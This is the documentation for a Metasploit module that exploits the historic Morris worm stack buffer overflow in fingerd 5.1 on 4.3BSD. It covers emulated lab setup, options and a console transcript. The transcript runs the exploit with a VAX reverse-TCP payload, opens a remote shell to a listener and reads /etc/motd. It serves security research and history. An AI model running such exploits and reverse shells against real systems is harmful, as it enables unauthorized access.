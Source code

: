 ## Vulnerable Application

### Description

This module exploits a stack buffer overflow in `fingerd` on 4.3BSD.

This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets `fingerd` version 5.1 from 1985-06-06.

## Options

### RPORT

Set this to the target port. The default is 79 for `fingerd`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

### PAYLOAD

Set this to a BSD VAX payload. Currently, only
`bsd/vax/shell_reverse_tcp` is supported.

## Scenarios

### `fingerd` 5.1 on 4.3BSD

```
msf > use exploit/bsd/finger/morris_fingerd_bof
msf exploit(bsd/finger/morris_fingerd_bof) > options

Module options (exploit/bsd/finger/morris_fingerd_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   79               yes       The target port (TCP)


Payload options (bsd/vax/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   @(#)fingerd.c   5.1 (Berkeley) 6/6/85


msf exploit(bsd/finger/morris_fingerd_bof) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(bsd/finger/morris_fingerd_bof) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(bsd/finger/morris_fingerd_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 127.0.0.1:79 - Connecting to fingerd
[*] 127.0.0.1:79 - Sending 533-byte buffer
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58015) at 2020-02-06 15:45:33 -0600

who am i
nobody   tty??   Feb  6 13:45
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
